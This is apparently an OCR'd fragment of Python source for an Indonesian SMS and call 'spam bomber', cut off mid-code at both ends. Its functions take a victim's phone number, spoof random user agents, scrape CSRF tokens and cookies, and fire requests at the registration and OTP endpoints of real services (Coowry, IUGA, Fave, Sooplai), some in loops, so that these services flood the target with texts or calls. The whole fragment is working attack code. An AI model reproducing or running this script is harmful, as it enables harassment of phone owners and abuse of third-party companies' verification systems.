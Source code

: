         "accept": "*/*",
        "accept-encoding": "gzip, deflate, br",
        "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7",
        "content-length": "28",
        "content-type": "application/json",
        "origin": "https://www.coowry.com",
        "referer": "https://www.coowry.com/arlethdesign",
        "sec-fetch-dest": "empty",
        "sec-fetch-mode": "cors",
        "sec-fetch-site": "same-origin",
        "user-agent": ua.random
    }
    target = {"msisdn":"+62"+nom}
    jsn = json.dumps(target)
    r  = ru.Session()
    a = r.get(url,headers={'user-agent':ua.random}).cookies
    b = r.post(spam,headers=hd,cookies={'_cwpeople_keyle_key':a["_cwpeople_key"]},data=jsn).text
    c = json.loads(b)["type"]
    if 'ok' in c:print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({im}{kun}SMS{kan}) {ken}Coowry{kan} OK")
    else:print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({im}{kun}SMS{kan}) {ken}Coowry{kun} Gagal abang jago")
 def iuga(nom):
    pis = nom.replace("+62","")
    r  = ru.Session()
    for x in range(1):
                a = r.get('https://www.iuiga.com/register.html',headers={'user-agent':ua.random}).text
                b = bs(a,'html.parser')
                c = b.find("meta",attrs={"name":"csrf-token"})
                d = r.post('https://www.iuiga.com/login/send-register-code',headers={'user-agent':ua.random},data={"_csrf": c["content"],"phone": pis,"phone_code": "+62","is_login": "0"}).text
                if 'success' in d:
                 print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}IUGA{kan} Ok")
                else:print(f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}IUGA{kun} Gagal abang jago")
 def fav(nom):
    hd = {
"Host": "api.myfave.com",
"Connection": "keep-alive",
"x-user-agent": "Fave-PWA/v1.0.0",
"User-Agent": ua.random,
"content-type": "application/json",
"Accept": "*/*",
"Origin": "https://m.myfave.com",
"Referer": "https://m.myfave.com/jakarta/auth",
"Accept-Encoding": "gzip, deflate, br",
"Accept-Language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"
}
    dat = {'phone':'62'+nom}
    x = ru.post("https://api.myfave.com/api/fave/v3/auth", data=json.dumps(dat), headers=hd).text
    if 'error' in x:print(f"{ken}[{kun}•{ken}] {ken}Spam {kan}({anj}CAll{kan}) {ken}Fave{kun} Gagal abang jago")
    else:print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({anj}CALL{kan}) {ken}Fave{kan} OK")
 def suplai(nom):
    hd = {
"Host": "api.sooplai.com",                                                                           "accept": "application/json, text/plain, */*",
"User-Agent": ua.random ,
"Content-Type": "application/json",
"origin": "https://www.sooplai.com",
"referer": "https://www.sooplai.com/register",
"Accept-Encoding": "gzip, deflate, br",
"Accept-Language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7",
}
    dat = json.dumps({'phone':'62'+nom})
    for x in range(5):